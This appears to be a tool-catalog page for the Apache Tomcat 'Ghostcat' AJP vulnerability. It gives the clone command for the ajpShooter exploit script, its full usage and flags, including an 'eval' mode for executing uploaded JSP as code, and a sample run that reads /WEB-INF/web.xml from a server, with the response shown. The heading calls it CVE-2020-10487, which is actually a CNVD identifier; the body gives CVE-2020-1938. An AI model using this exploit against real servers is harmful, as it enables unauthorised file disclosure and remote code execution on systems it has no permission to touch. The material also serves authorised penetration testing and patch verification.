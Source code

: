 icon:fontawesome/solid/unlock-keyhole

# CVE-2020-10487

CVE-2020-10487 - Apache Ghostcat

CVE-2020-1938 is a file read/inclusion vulnerability in the AJP connector in Apache Tomcat. This is enabled by default with a default configuration port of 8009. A remote, unauthenticated attacker could exploit this vulnerability to read web application files from a vulnerable server. In instances where the vulnerable server allows file uploads, an attacker could upload malicious JavaServer Pages (JSP) code within a variety of file types and trigger this vulnerability to gain remote code execution (RCE).

## Installation

```bash
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
```

## Usage

```bash
python3 ajpShooter.py
```

## Flags

```bash

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test

usage: ajpShooter.py [-h] [--ajp-ip AJP_IP] [-H HEADER] [-X {GET,POST,HEAD,OPTIONS,PROPFIND}] [-d DATA]
                     [-o OUT_FILE] [--debug]
                     url ajp_port target_file {read,eval}

positional arguments:
  url                   target site's context root url like http://www.example.com/demo/
  ajp_port              ajp port
  target_file           target file to read or eval like /WEB-INF/web.xml,/image/evil.jpg
  {read,eval}           read or eval file

optional arguments:
  -h, --help            show this help message and exit
  --ajp-ip AJP_IP       ajp server ip,default value will parse from from url
  -H HEADER, --header HEADER
                        add a header
  -X {GET,POST,HEAD,OPTIONS,PROPFIND}
                        Sets the method (default: GET).
  -d DATA, --data DATA  The data to POST
  -o OUT_FILE, --out-file OUT_FILE
                        write response to file
  --debug
```

## Examples

```bash
$ python3 ajpShooter.py http://172.26.82.122:8080/ 8009 /WEB-INF/web.xml read

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test


[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1257-1475781398000"
[<] Last-Modified: Thu, 06 Oct 2016 19:16:38 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1257

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

## References

- [Github.com](https://github.com/00theway/Ghostcat-CNVD-2020-10487)
- [Medium.com - Hunting and exploiting Apache GhostCat](https://medium.com/@apkash8/hunting-and-exploiting-apache-ghostcat-b7446ef83e74)
